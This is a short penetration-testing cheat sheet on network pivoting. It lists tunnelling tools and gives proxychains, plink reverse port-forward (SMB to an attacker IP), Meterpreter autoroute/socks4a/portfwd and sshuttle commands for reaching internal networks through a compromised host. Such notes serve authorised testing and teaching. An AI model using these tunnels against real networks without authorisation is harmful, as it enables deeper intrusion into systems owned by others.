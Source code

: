 # Pivoting

## Tools


* ssh (-D -L -R)
* meterpreter
* plink.exe
* [chisel](https://github.com/jpillora/chisel)
* [reGeorg](https://github.com/sensepost/reGeorg) (web socks proxy)

### Proxychains

We can choose one of the tools to create a socks proxy and configure Proxychains to route into it the traffic of any pentesting tool that has no buit-in options to specify a socks proxy :

```bash
sudo vim /etc/proxychains.conf => changer le port du proxysocks proxychains
proxychains wpscan --url <url> 
wpscan --url <url> --proxy socks5://127.0.0.1:9517 --force
```
> We can also forward a single port to avoid being forced to use a socks proxy.

### Plink

```sh
plink.exe -l root -pw password -R 445:127.0.0.1:445 <your_ip>
```

### Meterpreter

```sh
#Socks Proxy
run autoroute -s <target_network>/24
use auxiliary/server/socks4a
exploit -j

# Port forward
portfwd add -l 3389 -p 3389 -r <target>
```

---

### SSHUTTLE
```sh
sshuttle -r kali@<ip_target>:22 <target_network>/24
```

---

## Nmap like

[PortqryUI](https://www.microsoft.com/en-us/download/details.aspx?id=24009) : Nmap like for windows
